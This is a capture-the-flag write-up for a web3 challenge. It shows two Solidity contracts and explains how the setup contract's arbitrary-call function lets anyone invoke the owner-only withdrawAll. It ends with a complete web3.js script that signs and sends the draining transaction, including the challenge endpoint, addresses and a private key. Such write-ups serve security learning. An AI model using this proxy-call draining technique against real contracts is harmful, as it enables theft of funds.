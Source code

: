 # NotSuchSolidIT - web3

## Challenge

We get one challenge contract and its address, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

### Challenge.sol

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.18;
contract Challenge {

	address payable owner;
    
	constructor() payable {
		owner = payable(msg.sender); 
	}

	modifier onlyOwner {
		require(msg.sender == owner);
		_;
	}
	
	function getBalance() public view returns (uint){
		return address(this).balance;
	}
	
	function withdrawAll(address payable _to) public onlyOwner {
		_to.transfer(address(this).balance);
	}
	
	function destroy() public onlyOwner {
		selfdestruct(owner);
	}
}
```

### Setup.sol

We also get the setup contract that was used ot deploy the chall, as well as it's address.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
import "./Challenge.sol";

contract Setup {
	Challenge public chall;

	constructor() payable {
		require(msg.value >= 100, "Not enough ETH to create the challenge..");
		chall = (new Challenge){ value: 50 ether }();
	}

	function isSolved() public view returns (bool) {
		return address(chall).balance == 0;
	}
	
	function isAlive(string calldata signature, bytes calldata parameters, address addr) external returns(bytes memory) {
		(bool success, bytes memory data) = address(addr).call(
			abi.encodeWithSelector(
				bytes4(keccak256(bytes(signature))),
				parameters
			)
		);
		require(success, 'Call failed');
		return data;
	}
}

```


## Solution

Here the contract by itself is pretty ok. The vulnerability lies in the setup contract being able to execute functions of the challenge contract, using the isAlive() function. As the withdrawAll() only checks for the msg.sender being the owner, which the setup contract is, it can be used to call the function via the setup contract. Below this you can see an example script that exploits this vulnerability.


```
const Web3 = require('web3');
const setupContractAbi = require('./abi_setup.json');

async function sendTransaction() {
  // create a web3 instance
  const web3 = new Web3('https://notsuchsolidit.insomnihack.ch:32833');

  // create a contract instance for the setup contract
  const setupContractAddress = '0x876807312079af775c49c916856A2D65f904e612';
  const setupContract = new web3.eth.Contract(setupContractAbi, setupContractAddress);

  // define the function to call
  const signature = 'withdrawAll(address)';
  const parameters = Buffer.from('133756e1688E475c401d1569565e8E16E65B1337', 'hex');
  const addr = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
  const functionToCallabi = setupContract.methods.isAlive(signature, parameters, addr).encodeABI();

  // sign the transaction
  const privateKey = 'edbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
  const fromAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
  const nonce = await web3.eth.getTransactionCount(fromAddress);
  const gasPrice = await web3.eth.getGasPrice();
  const gasLimit = 1000000;
  const txObject = {
    from: fromAddress,
    to: setupContractAddress,
    gas: gasLimit,
    gasPrice: gasPrice,
    nonce: nonce,
    data: functionToCallabi,
  };
  const signedTx = await web3.eth.accounts.signTransaction(txObject, privateKey);
  const serializedTx = signedTx.rawTransaction;

  // send the transaction
  const receipt = await web3.eth.sendSignedTransaction(serializedTx);
  console.log('Transaction hash:', receipt.transactionHash);
}

sendTransaction();
```

Now you just need to run this script 

--> Flag